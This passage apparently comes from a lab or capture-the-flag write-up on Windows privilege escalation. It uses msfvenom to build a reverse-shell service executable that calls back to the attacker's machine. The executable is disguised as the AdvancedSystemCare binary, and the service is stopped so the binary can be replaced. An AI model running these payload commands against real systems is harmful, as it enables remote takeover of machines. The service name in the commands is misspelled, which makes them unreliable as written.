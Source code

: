 Next we craft our payload from our attack machine using msfvenom and name it the same name as the AdvanceSystemCareService executable which is ASCService.exe:
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

![](images/20230913100821.png)


So the next step for us is to stop the AdvancedSytemCareService9 from running so that we can upload our malicious executable and replace it with the legitimate one.
```powershell
Stop-Service -Name "AdvacnedSystemCareService9"
```
![](images/20230913101110.png)
